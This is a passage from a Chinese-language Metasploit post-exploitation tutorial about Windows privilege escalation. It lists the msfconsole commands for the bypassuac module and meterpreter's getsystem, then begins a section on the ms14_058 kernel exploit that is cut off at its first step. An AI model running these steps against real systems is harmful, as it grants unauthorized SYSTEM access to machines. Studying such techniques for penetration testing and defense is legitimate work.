 ### 利用UAC绕过进行提权

> 利用相应绕过UAC的模块进行提权

1. 启动Exploit/windows/local/bypassuac模块

2. 配置session，并运行模块

3. 使用getsystem指令提权

   ```
   // 启动Exploit/windows/local/bypassuac模块
   # msf6 > use exploit/windows/local/bypassuac
   // 配置session，并运行模块
   # msf6 exploit(windows/local/bypassuac) > set session 1
   # msf6 exploit(windows/local/bypassuac) > exploit
   // 最后使用getsystem提权
   # meterpreter > getsystem
   ```

   ![利用UAC绕过进行提权](./后渗透/利用UAC绕过进行提权.png)

### 利用提权漏洞进行提权

> 利用靶机相应提权漏洞进行提权
>
> 以ms14_058_track_popup_menu为例

1. 查看提权漏洞的用法
